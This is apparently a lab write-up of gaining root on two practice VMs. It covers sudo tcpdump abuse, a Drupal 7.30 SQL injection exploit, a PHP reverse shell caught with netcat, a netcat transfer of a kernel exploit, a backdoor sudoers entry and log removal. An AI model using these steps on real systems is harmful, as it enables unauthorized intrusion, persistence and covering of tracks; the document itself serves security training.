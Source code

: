 ====================
Privilege Escalation
====================

.. contents::

.. sectnum::

Introduction
============
Two vulnerable VMs were provided, with the objective of achieving root access via privilege escalation.

Methodology
===========

Wordpress Webdeveloper
----------------------

tcpdump 
~~~~~~~
The ``webdeveloper`` account has ``sudo`` privilege to execute ``/usr/bin/tcpdump``. This can be exploited to execute commands with elevated privileges [#]_.

.. [#] https://gtfobins.github.io/gtfobins/tcpdump/

``webdeveloper`` was then given full ``sudo`` privileges with the following commands::

   echo "usermod -aG sudo webdeveloper" > /tmp/esc
   chmod +x /tmp/esc
   sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/esc -Z root

.. figure:: images/webdeveloper-add-sudo.png
  :width: 100%
  :alt: Runnning usermod with root privileges

  Running usermod with root privileges to add webdeveloper into the sudoers group

After logging out and logging in, ``webdeveloper`` will have access to full ``sudo`` privileges.

.. figure:: images/webdeveloper-sudo.png
  :width: 100%
  :alt: sudo make me a sandwich

  Viewing the normally restricted /etc/shadow

Vulnerable VM 2
---------------

Host Discovery
~~~~~~~~~~~~~~
The IP address of the target on the network was elucidated using ``nmap -sn``::

   nmap -sn <target network/netmask>

.. figure:: images/nmap-sn.png
  :width: 100%
  :alt: Host discovery

  -sn (previously -sP) for ping scan without following up with port scan.

Target Reconnaissance
~~~~~~~~~~~~~~~~~~~~~
Preliminary information on the target was obtained using ``nmap -A``::

   nmap -A <target ip>

.. figure:: images/nmap-A.png
  :width: 100%
  :alt: Target reconnaissance

  -A for OS and version detection, script scanning, and traceroute

``-A`` is a convenience option that includes OS detection (``-O``), service and version detection (``-sV``), script scanning (``-sC``), and traceroute (``--traceroute``).

We can see that an Apache http daemon is running on the open port 80. It is hosting a Drupal 7 CMS, on a Linux kernel version between 3.2 - 4.8. Some files and directories listed in ``robots.txt`` seem to be directly accessible via http.

Web Services
~~~~~~~~~~~~
Since there is a webserver on the target, more information can be gleaned about the web services it is running::

    whatweb -v <target url/ip>

.. figure:: images/whatweb-v.png
  :width: 100%
  :alt: Whatweb

  ``-v`` for increased verbosity

The website is also running PHP 5.5.9.

robots.txt
~~~~~~~~~~
``robots.txt`` exposes the addresses of some files accessible via http. Examining ``CHANGELOG.txt`` reveals the exact Drupal version.

.. figure:: images/curl-changelog.png
  :width: 100%
  :alt: I'm Not a Robot

  Exploiting information leaked by robots.txt

Searchsploit
~~~~~~~~~~~~
Queries for the web services were run using ``searchsploit`` to look for suitable vulnerabilities to exploit.

   searchsploit -e <term>

.. figure:: images/searchsploit-e.png
  :width: 100%
  :alt: Searchsploit

  ``-e`` to match exact search terms and reduce false positive results.

It looks like Drupal 7.30 is vulnerable to SQL Injection.

SQL Injection
~~~~~~~~~~~~~
The exploit for SQL injection was examined to see if it is suitable for gaining access to the Drupal CMS. It seems to create a Drupal user, but requires the ``drupalpass`` module from ``https://github.com/cvangysel/gitexd-drupalorg/blob/master/drupalorg/drupalpass.py``.

.. figure:: images/sql-injection.png
  :width: 100%
  :alt: Contents of 34984.py

  Looks like the exploit creates a Drupal user account.

``drupalpass.py`` was obtained and placed in the same working directory as ``34984.py``. The exploit was then executed as demonstrated in the source code.

.. figure:: images/34984.png
  :width: 100%
  :alt: Drupal SQL injection

  Success!

A new Drupal user with administrator access was created.

.. figure:: images/drupal-editor.png
  :width: 100%
  :alt: Drupal administrator

  Just an editor, nothing to be suspicious of.

PHP Reverse Shell
~~~~~~~~~~~~~~~~~
Since Drupal uses PHP, a PHP reverse shell [#]_ could possibly be used as an attack vector.

.. [#] http://pentestmonkey.net/tools/web-shells/php-reverse-shell

It turns out that there is an option in Drupal 7 to allow PHP code execution in the body of a post. [#]_

.. [#] https://www.drupal.org/docs/7/howtos/add-php-code-to-the-body-of-a-drupal-7-block

The Drupal 7 documentation was followed to enable the ``PHP Filter`` in the ``Modules`` subsection.

.. figure:: images/drupal-php-filter.png
  :width: 100%
  :alt: Enable PHP Filter module

Administrators were then given the permission to ``Use the PHP code text format`` under the ``People/Permissions`` subsection.

.. figure:: images/drupal-use-php-code.png
  :width: 100%
  :alt: Give permissions to use PHP code

A ``Basic page`` was created by clicking ``Add content``, with the code for the PHP reverse shell pasted into the content body, modifying the source to the appropriate IP address and port as in its instructions. The text format was set to ``PHP Code`` so that it will execute when loaded.

``nc`` (``netcat``) was used to create an open port to listen to incoming traffic from the reverse shell::

   nc -lvnp <port>

   -l listen for inbound connects
   -v verbose
   -n numeric-only IP address; avoids a DNS lookup
   -p local port number

The PHP reverse shell connected once the posted page was loaded.

.. figure:: images/nc-lvnp.png
  :width: 100%
  :alt: Reverse shell connected

Privilege Escalation
~~~~~~~~~~~~~~~~~~~~
The PHP reverse shell script has conveniently included a call to ``uname -a`` upon process opening. We can identify that the server is running ``Linux 3.13``.

``searchsploit`` was then used again to look for suitable kernel vulnerabilities to exploit.

The vulnerabilities are checked if they will result in privilege escalation.

.. figure:: images/searchsploit-linux.png
  :width: 100%
  :alt: Searchsploit and reading source code of exploits in vim

  Checking suitability of kernel explots.

It looks like ``Linux 3.13`` is susceptible to an ``overlayfs`` attack which will result in root privilege escalation. The exploit does not seem to require additional dependencies to execute.

The source code for the exploit has to be transferred over to the target server. In order to do that, ``nc`` (``netcat``) is once again used.

Another port is opened and set to listen on the target server, redirecting any incoming stream to the target location::

   nc -lvnp <target port> > /tmp/<file output>

The ``/tmp`` directory is chosen as it has global read-write-execute access permissions for executing the exploit.

The attacker will then connect to the open port to initiate transfer::

   nc <target ip> <target port> < <file input>

.. figure:: images/netcat-file-transfer.png
  :width: 100%
  :alt: Using netcat to transfer data

  The exploit is transferred from attacker (bottom) to target (top).

Once the file is transferred, it is compiled using ``gcc`` and executed, resulting in privilege escalation to root.

.. figure:: images/root-exploit.png
  :width: 100%
  :alt: Privilege escalation exploit

  Root access granted.

Backdoor and Clean Up
~~~~~~~~~~~~~~~~~~~~~
A new user can then be created and added to the ``/etc/sudoers`` file as a backdoor::

   adduser <username>
   echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers

.. figure:: images/printer-spooler.png
  :width: 100%
  :alt: Appending to /etc/sudoers to grant root privilege to backdoor user

  The innocuous ``printer-spooler`` is granted root privileges.

An SSH server can be installed. Server logs and the Drupal page with the PHP reverse shell exploit can then be removed to hide traces of the hack.

Conclusion
==========
By systematically exploiting software and OS vulnerabilities, root access was obtained via privilege escalation in two VMs. This highlights the importance of keeping system software up to date in order to minimize the attack surfaces that hackers might use to gain unauthorized access to the system.
